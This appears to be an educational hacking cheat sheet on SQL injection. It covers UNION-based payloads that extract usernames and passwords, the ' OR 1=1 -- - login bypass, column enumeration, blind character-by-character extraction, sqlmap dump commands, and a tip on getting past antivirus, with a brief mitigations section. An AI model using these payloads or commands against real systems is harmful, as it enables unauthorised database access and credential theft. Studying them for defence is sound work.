 # Exploit a Database

<hr class="sl">

## Random

Note: this isn't a course about SQL, but stuff that may be useful to hackers.

<div class="row row-cols-md-2"><div>

* `service xxx status`: check if a service is enabled. 
  * `mysql`
  * `postgresql`
  * `...`
* `mysql -u root -p -h <ip>`: login as root to the database at `<ip>`
  * Use `mysql -u root -p` for a local database.
  * Try an empty password, as this is the default password for root.
</div><div>

Inside the SQL console, you may use

* `source <sql>`: in MySQL console, import a SQL file.

Note that even if you can insert a path, you should start the SQL console inside the folder with the SQL file, and only enter the filename. This is because, if the file is importing data from other files, it less likely to still work if the statements are executed from another folder than the one with the script.

* `DESCRIBE <table>`: see the structure of `<table>`
</div></div>

<hr class="sr">

## SQL Injections (SQLi)

<div class="row row-cols-md-2"><div>

Most websites are using SQL database to store records. For instance, when using a login form, the username will most likely be used to fetch a user, then there will be a check of the password.

In some cases, SQL injections are possible. It means that instead of providing our username, we will provide some SQL code that will be injected in the SQL request, and allow a hacker to access the database via the login form.

**Example of injectable PHP code**: this code is fetching a list of products matching the product name send by the client.

```php
$sql = "Select name,desc from product where name LIKE '%$name%'";
```

If the user enter the following value instead of a product name

```php
' UNION Select username,password FROM users-- -
```

Then, the SQL query that will be executed will be

```sql
Select name,desc from product where name LIKE '%' UNION Select username,password FROM users-- -%'
```

Notice that now, the query will return a list of product, concatenated with a list of usernames/password!
</div><div>

**Explanation**

**Inject `'`**: because we want to close the "Like", and avoid an error `[...] LIKE '%`.

```sql
Select name,desc from product where name LIKE '%'%'
```

**1. Inject `' --`**: the problem, is that now the query won't work, because we have 3 single quotes, and there is a trailing `%`. So, what we do is commenting the rest of the query.

```sql
Select name,desc from product where name LIKE '%' --%'
```

**2. Inject `'-- -`**:  The code above may not work on some DBMS, because they want a space between the start of a comment, and the comment itself. So, we add ` -`, to ensure that there is a space.

```sql
Select name,desc from product where name LIKE '%' -- -%'
```

**3. Have fun**: between `'%'` and `-- -%'`, we can write SQL code, through the syntax of the final query must be valid. In the example, we used `UNION Select username,password FROM users`, which is used to merge results of two queries.
</div></div>

<hr class="sl">

## SQLInjections in practice

<div class="row row-cols-md-2"><div>

There are many scenarios in which a hacker will find a SQL injection. The example above was a **Union-based SQLi**.


<table class="table table-bordered table-striped border-dark"><thead>
<tr><th>Name</th><th>Description</th></tr>
</thead><tbody>

<tr><td>Error-based</td><td>The simplest SQL injection. If a hacker send a wrong query, the server print the failing SQL query to the user. The hacker can easily use it to adapt the payload, and broke into the database.
</td></tr>

<tr><td>Union-based</td><td>An attacker use a form returning a list of results, to concatenate to them records fetched illegally.
</td></tr>

<tr><td>Boolean-based</td><td>This attack is used when there is no errors. An attacker will try to make a request that fail if a boolean expression is false. By doing so, if the service (ex: login) failed, the attacker can inter that is was because the boolean expression was false.
</td></tr>

<tr><td>Others</td><td>Time-based, Out-of-band-based, Voice-based, and Stacked queries-based.
</td></tr>
</tbody></table>
</div><div>

**Payloads** are the values that you are using the break into the database.

* [sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list) (2.6k ⭐)
* [PayloadsAllTheThings/SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection) (42.3k ⭐)
* Tools, such as SQLMap (25k ⭐)

Mitigations

* Use prepared requests (queries), they are ensuring that parameters of your queries are not interpreted as SQL code
* You can filter input, but you CAN'T rely on it, as you filter will _most likely_ be bypassed
* Do not trust anyone. SQL injections may be delayed. You may do protect your login queries, but if provided username is some SQL code, then any other request using the username may interpret it, hence you should secure every request, even if there are not handling data from the user, as they may later. You should use API for better security.
</div></div>

<hr class="sr">

## SQLMap

<div class="row row-cols-md-2"><div>

From the [SQLMap GitHub Repository](https://github.com/sqlmapproject/sqlmap): "sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.".

Try injecting a form

```bash
# try login.php
sqlmap -u URL/login.php
```

Try dumping the table "users" in the database "db_name"

```bash
sqlmap -u UGL/login.php -D db_name -T users –dump
```

Notes

* Try both with, and without union tests
* `XXX xxx is vulnerable`: enter yes to try exploiting this parameter
</div><div>

* `-u URL`: try injecting this URL
* `--dbs`: display all databases
* `--tables`: display tables
* `--column`: display columns
* `-C xx, yy`: display only columns xx, and yy
* `--dbms=some_dbms`: provide dbms, increase the chances of success
* `-D db_name`: the name of the database
* `--time-sec timeout`: specify a timeout
* `--dump`: save current data
* `--dump-all`: save all data
* `--batch`: do all requests at once (do not way for input)

> [SQLMap CheatSheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet) (external)
</div></div>

> You can use **BurpSuite** with SQLMap. Once you intercepted a request, right-click on it, and use **Save item**. Then, in SQLMap, use `-r /path/to/your/saved/item`. If your antivirus is blocking SQLMap, it may bypass it.

<hr class="sl">

## Famous payloads

<div class="row row-cols-md-2"><div>

Login without password on a website that do not encrypt passwords. The `1=1` is, like `-- -`, something to support some DBMS that are not allowing "1", or "TRUE".

```none
' OR 1=1 -- -
```
</div><div>
</div></div>

<hr class="sr">

## Do the job manually

<div class="row row-cols-md-2"><div>

**Union-based SQLi** can only be achieved is the two queries have the same number of attributes in the SELECT, as per the property of the UNION clause. As such, hackers are simply adding "null", one by one if in a boolean-based scenario, until they found how much attributes were selected in the original query.

```sql
-- you don't known the query
SELECT [...] UNION SELECT NULL -- fail
SELECT [...] UNION SELECT NULL, NULL -- fail
SELECT [...] UNION SELECT NULL, NULL, NULL -- fail
SELECT [...] UNION SELECT NULL, NULL, NULL, NULL -- OK
```

In the case above, we know that there are 4 attributes in the select, even if we don't know which ones! Once we found the tables/column names, we will use that to fetch data.

Another way to get the number of column is used the property of ORDER BY. This clause can take an index, which is a shortcut for the $nth$ in the select. If you use an invalid $n$, then the requests fails.

```sql
-- you don't known the query
SELECT [...] ORDER BY 1 -- fail
SELECT [...] ORDER BY 2 -- fail
SELECT [...] ORDER BY 3 -- fail
SELECT [...] ORDER BY 4 -- OK
```
</div><div>

Now that you found the number of column, you should try to get some data from the database. In a **Union-based SQLi**, just use SQL commands, and have fun.

```sql
-- you don't known the query
SELECT [...]
UNION 
-- tables
SELECT TABLE_NAME, NULL, NULL, NULL
FROM information_schema.TABLES
UNION
-- database + version + user
SELECT NULL, database(), @@version, user()
```

In a **Error-based SQLi**, the job will take LONGER 😢. You will have to try letter by letter. To find the first letter of the database, you will have to use iterative payloads such as

```
' AND (ascii(substr((select database()),1,1))) = ascii('a') -- -
' AND (ascii(substr((select database()),1,1))) = ascii('b') -- -
' AND (ascii(substr((select database()),1,1))) = ascii('c') -- -
[...]
' AND (ascii(substr((select database()),1,1))) = ascii('z') -- -
```

Then, process with the second, the third letter... Actually, there aren't that many DBMS, like, well, you could try some letters first.

</div></div>